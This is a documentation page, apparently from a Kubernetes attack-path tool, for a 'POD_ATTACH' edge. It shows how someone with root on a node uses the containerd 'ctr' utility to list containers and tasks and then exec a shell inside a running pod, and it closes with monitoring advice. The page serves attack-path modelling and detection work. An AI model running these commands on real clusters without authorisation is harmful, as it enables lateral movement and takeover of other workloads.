 # POD_ATTACH

Attach to a running K8s pod from a K8s node.

| Source                      | Destination                           | MITRE                            |
| --------------------------- | ------------------------------------- |----------------------------------|
| [Node](../vertices/NODE.md) | [Pod](../vertices/POD.md)  | [Lateral Movement, TA0008](https://attack.mitre.org/tactics/TA0008/) |

## Details

A node in K8s is the host of a number of pods. A node has a supervisory function and thus access to the node grants full access to the pods. The only obstacle is the right tooling to interact easily with `containerd`. 

## Prerequisites

Full access to a node.

## Checks

Ensure that the node is running containers using containerd via a ps -ef command. You should see an output similar to the below:

```bash
root@k8s-node:~# ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 09:48 ?        00:00:02 /sbin/init
root          86       1  0 09:48 ?        00:00:01 /lib/systemd/systemd-journald
root          99       1  1 09:48 ?        00:05:31 /usr/local/bin/containerd
root         220       1  2 09:48 ?        00:09:13 /usr/bin/kubelet --bootstrap-kubeconfig=/etc/kubernetes/bootstrap-kubelet.conf --kubeconfig=/etc/kubernetes/kubelet.conf --config=/var/lib/kubelet/config.yaml -
root         304       1  0 09:48 ?        00:00:11 /usr/local/bin/containerd-shim-runc-v2 -namespace k8s.io -id ae35055acaccc10634d9160f08937d71d856be6b0d954cc772e72c83ee9bffee -address /run/containerd/container
root         320       1  0 09:48 ?        00:00:11 /usr/local/bin/containerd-shim-runc-v2 -namespace k8s.io -id ef5d38bf4bf263cbb80f0ea8cb75059e2fc997b9885d649afe0cc7d48e4f8b3f -address /run/containerd/container
65535        351     304  0 09:48 ?        00:00:00 /pause
65535        357     320  0 09:48 ?        00:00:00 /pause
root         401     320  0 09:48 ?        00:00:09 /usr/local/bin/kube-proxy --config=/var/lib/kube-proxy/config.conf --hostname-override=k8s-gameday-worker
root         511     304  0 09:48 ?        00:00:07 /bin/kindnetd
root         889       1  0 09:49 ?        00:00:12 /usr/local/bin/containerd-shim-runc-v2 -namespace k8s.io -id 2446353ed4380ef6e81172b5c09a9191e9e300c93ded0febea42967177aae3d1 -address /run/containerd/container
65535        909     889  0 09:49 ?        00:00:00 /pause
root        1741     889  0 09:49 ?        00:03:47 datadog-cluster-agent start
root       12899       1  0 10:07 ?        00:00:11 /usr/local/bin/containerd-shim-runc-v2 -namespace k8s.io -id 61250b69765dbf0fadb9cdcfa87db7c0b8c4c85ff93051f83e52574a3b4b7bd4 -address /run/containerd/container
65535      12922   12899  0 10:07 ?        00:00:00 /pause
root       12955   12899  0 10:07 ?        00:00:00 /bin/sh -c -- while true; do sleep 30; done;
root       50503       1  0 11:13 ?        00:00:37 /usr/local/bin/containerd-shim-runc-v2 -namespace k8s.io -id 026430a39a6452201524dfbe9872b2eb6027a9bcc2085fa8f7d95096150165c0 -address /run/containerd/container
root       50523   50503  0 11:13 ?        00:00:00 /pause
root       50854   50503  2 11:13 ?        00:08:06 agent run
root       50895   50503  0 11:13 ?        00:01:20 trace-agent -config=/etc/datadog-agent/datadog.yaml
root       50940   50503  0 11:13 ?        00:01:58 process-agent --cfgpath=/etc/datadog-agent/datadog.yaml
root       51064   50503  0 11:13 ?        00:02:07 security-agent start -c=/etc/datadog-agent/datadog.yaml
root      233872       1  0 16:12 ?        00:00:00 /usr/local/bin/containerd-shim-runc-v2 -namespace k8s.io -id ba0483c7235ccdbc9baf9f2ac0e39bea1cf54c3a16cab068c0c51954bbde99d1 -address /run/containerd/container
65535     233893  233872  0 16:12 ?        00:00:00 /pause
root      233924  233872  0 16:12 pts/0    00:00:00 nsenter --all --target=1 -- su -
root      233939  233924  0 16:12 pts/0    00:00:00 su -
root      233957  233939  0 16:12 pts/0    00:00:00 -bash
root      237272  233957  0 16:17 pts/0    00:00:00 ctr -n k8s.io task exec -t --exec-id full-control 0f36d12d60d12d041df894132882380a1175d462b654d62cc2907994cbf6c238 /bin/sh
root      237292  233872  0 16:17 pts/1    00:00:00 /bin/sh
root      237719   12955  0 16:18 ?        00:00:00 sleep 30
root      237720  237292  0 16:18 pts/1    00:00:00 ps -ef
```

Take note of the containerd-shim-runc-v2 processes, in particular the namespace which we will need later! Ensure the ctr utility is installed so we can interact directly with containerd:

```bash
which ctr
# /usr/local/bin/ctr
```
If ctr is not installed, we can install it ourselves:

```bash
curl -L https://github.com/containerd/containerd/releases/download/v1.6.19/containerd-1.6.19-linux-arm64.tar.gz > containerd.tar.gz
tar -xzf containerd.tar.gz
```
Now we can use ctr to examine the running containers:

```bash
$ ctr -n k8s.io containers ls
CONTAINER                                                           IMAGE                                            RUNTIME
07c72331fc4f2ffb7dc385beda170862f93993bd53d69232652fe1d6af83c8a8    docker.io/kindest/kindnetd:v20221004-44d545d1    io.containerd.runc.v2
33ba7bd90621cca281c99e58a83fe8fe974221085bebedc2de69ccf5988daa43    gcr.io/datadoghq/agent:7.43.0                    io.containerd.runc.v2
3bc41387a69a36fd031cdedb17aaf41a72faebce15fbad94b5e694600bde7a20    registry.k8s.io/pause:3.7                        io.containerd.runc.v2
43d816d3044000b37eed5710c2ad3da5f8f4a2e6ede47132238c0034de708612    gcr.io/datadoghq/agent:7.43.0                    io.containerd.runc.v2
44009453f6cb08fa4f617ef9b8ef5838f3dfc20c10693318b16119af4b37f7d4    registry.k8s.io/pause:3.7                        io.containerd.runc.v2
53384fe00e0a9846bfe406b4cc7ba84ba2fb34a05a86ea106064d92e648b2715    gcr.io/datadoghq/agent:7.43.0                    io.containerd.runc.v2
62ff4b5804ebb11a88af9d496afe09d2aa47fa3c0152f3ae90cf347899dcce71    docker.io/library/ubuntu:22.04                   io.containerd.runc.v2
876ef7a4f348010ce85bc6fd96ce8760c6357d7d24201b1459d8344155f4092f    docker.io/library/ubuntu:22.04                   io.containerd.runc.v2
8a8f35d4ece179d6cb968d66a1cca3dfb7dfe10b72b221cd5ff3cc42abd60c7f    gcr.io/datadoghq/agent:7.43.0                    io.containerd.runc.v2
a2036c90221e0993fb87a378b002bd43e15c1be2a70be43e7fc6416e99be4446    gcr.io/datadoghq/agent:7.43.0                    io.containerd.runc.v2
a2d0bb15f6e4b7a52d42e79685a2f57b06aa8f6ffbc15a38a1d303289a164e1d    gcr.io/datadoghq/agent:7.43.0                    io.containerd.runc.v2
bb9790ddf282fdb15c768013da80486989d4fda8f45ab94f70646cc9cce947e7    gcr.io/datadoghq/agent:7.43.0                    io.containerd.runc.v2
bdcc01c28b288e5c78e1f358716da80556b4a073c24549bc565180979c351891    registry.k8s.io/pause:3.7                        io.containerd.runc.v2
c5e3934d2e533b8580242f360f8a2e4f99a38d5cb50c9a579bf471869c38f043    gcr.io/datadoghq/agent:7.43.0                    io.containerd.runc.v2
c952cc4329ba0c822dacbade96153dea12d415c7c80ecb3f4c4a72d895629971    registry.k8s.io/kube-proxy:v1.25.3               io.containerd.runc.v2
ec74a2a48f514861096cf4b7b12550d8ce17d5b0803ec0aaf6a26dda4876e100    registry.k8s.io/pause:3.7                        io.containerd.runc.v2
f681a2a6f64b11bf53ec8d1c13de0d8715ac30819f21f94f316e0bc26a844770    registry.k8s.io/pause:3.7                        io.containerd.runc.v2
```

and the running tasks:

```bash
$ ctr -n k8s.io tasks ls
TASK                                                                PID       STATUS
839a74e97f50a275d306252842f3e79fca684a3b8b5ed3175d154fb990c80f31    51064     RUNNING
ae35055acaccc10634d9160f08937d71d856be6b0d954cc772e72c83ee9bffee    351       RUNNING
d2ff37e3f64e4032c34f635aa5d494e3d52e481772e2e8a71c5677f58938c35d    511       RUNNING
2446353ed4380ef6e81172b5c09a9191e9e300c93ded0febea42967177aae3d1    909       RUNNING
5bebdfa7f163311e44997625d4c1ac958f46ff1398925e9dbc7fb8a2ac2fc25a    12955     RUNNING
026430a39a6452201524dfbe9872b2eb6027a9bcc2085fa8f7d95096150165c0    50523     RUNNING
332f857ec069937342b07ed526e1d714b552e4656ed3e7c938b2b69c3790eb18    50895     RUNNING
24ab75252feedcf5232af1fa02a215bb0851599bc762933f7b7442943fcd58f9    50940     RUNNING
48e7c28fdc68c9473a31dea3194b922e064ad9e37499da7b7cf2481722d97dc6    401       RUNNING
80eeba17282348b418d786c6fa76338df7a7f6a6734767492825c1d6674a376a    50854     RUNNING
61250b69765dbf0fadb9cdcfa87db7c0b8c4c85ff93051f83e52574a3b4b7bd4    12922     RUNNING
ef5d38bf4bf263cbb80f0ea8cb75059e2fc997b9885d649afe0cc7d48e4f8b3f    357       RUNNING
0f36d12d60d12d041df894132882380a1175d462b654d62cc2907994cbf6c238    233924    RUNNING
ba0483c7235ccdbc9baf9f2ac0e39bea1cf54c3a16cab068c0c51954bbde99d1    233893    RUNNING
f4efb164afc51bf45cb09ed99058e72ea2e70cf887b8f8cfd5a058e69e65aa2e    1741      RUNNING
```

## Exploitation

We have full control of all the running containers. The simplest way to make us of this is to execute a new task inside one of the running containers to get a shell:

```bash
ctr -n k8s.io task exec -t --exec-id full-control 0f36d12d60d12d041df8941
```

## Defences

### Monitoring

+ Monitor for use of the CTR binary within nodes via the Datadog agent. This activity should be very unusual.

## Calculation

+ [PodAttach](../../pkg/kubehound/graph/edge/pod_attach.go)

## References:

+ [Kubernetes API Reference Docs](https://kubernetes.io/docs/reference/generated/kubernetes-api/v1.26/#pod-v1-core)
+ https://iximiuz.com/en/posts/containerd-command-line-clients/
+ https://nanikgolang.netlify.app/post/containers/
+ https://www.mankier.com/8/ctr